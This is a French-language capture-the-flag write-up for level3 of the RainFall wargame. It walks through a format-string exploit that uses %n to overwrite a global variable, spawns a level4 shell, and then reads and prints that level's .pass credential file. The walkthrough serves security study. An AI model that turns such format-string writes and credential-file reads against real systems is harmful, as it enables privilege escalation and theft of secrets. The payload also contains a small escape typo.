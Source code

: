 ### B: Creation de l'exploit

* Il nous faut donc: l'adresse de m, à partir de combien de parametres on va lire le debut de notre string, et c'est tout

```shell
  # Addresse de m (vu pendant l'analyse)
  gdb-peda$ x/s 0x804988c
    0x804988c <m>:	 ""

  # On teste au bout de combien de paramètres on retombe sur nos AAAA
  level3@RainFall:/tmp$ echo 'AAAA%x.%x.%x.%x.%x' | ~/level3
    AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825
  # On voit ici que l'on tombe sur le 4ème paramètre. Ce paramêtre sera notre %n
```

* On a donc tous les prérequis. En transformant en little indian l'addresse de m(\x8c\x98\x04\08), on va pouvoir construire la string suivante:

```shell
  level3@RainFall:/tmp$ python -c 'print "\x8c\x98\x04\08%1$60d%4$n"' > pattern3
```
* La syntaxe "%4$n" Veut dire qu'on prend le 4eme parametre (évite la répétition de random %)
* La syntaxe "%1$60d" veut dire qu'on met in padding de 60 avant notre premier parametre
* Donc 60 + les 4 de l'addresse, ca nous fait bien 64. Et le 4eme paramètre sera l'endroit où l'on stockera ce nombre

```shell
level3@RainFall:/tmp$ cat /tmp/pattern3 - | ~/level3
  �                                                         512
  Wait what?!
whoami
  level4
cat /home/user/level4/.pass
  b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
